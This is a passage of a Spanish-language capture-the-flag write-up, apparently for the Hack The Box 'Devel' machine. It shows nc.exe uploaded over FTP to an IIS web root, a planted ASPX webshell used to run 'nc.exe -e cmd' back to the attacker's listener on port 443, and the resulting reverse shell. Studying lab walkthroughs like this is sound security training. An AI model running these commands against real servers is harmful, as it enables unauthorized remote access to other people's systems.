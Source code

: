 Ahora procedemos a entablarnos una reverse shell, primerament subimos el archivo *nc.exe* para poderlo ejecutar:

```bash
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28306 bytes sent in 0.00 secs (39.1228 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
08-29-21  12:56AM                 1442 cmdasp.aspx
03-17-17  05:37PM                  689 iisstart.htm
08-29-21  01:04AM                28306 nc.exe
08-29-21  12:32AM                   51 test.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp>
```

Después, en nuestra webshell introducimos el siguiente comando para localizar donde se encuentra el archivo *nc.exe* dentro del sistema `cd C:\ && dir /s nc.exe`. Identificamos que el archivo se encuentran en la ruta `C:\inetpub\wwwroot`. Ahora nos ponemos en escucha por el puerto 443 y nos establecemos una conexión introduciendo el siguiente comando en la webshell `C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.15 443`

![""](/assets/images/htb-devel/devel-cmdasp2.png)

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.5] 49157
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```
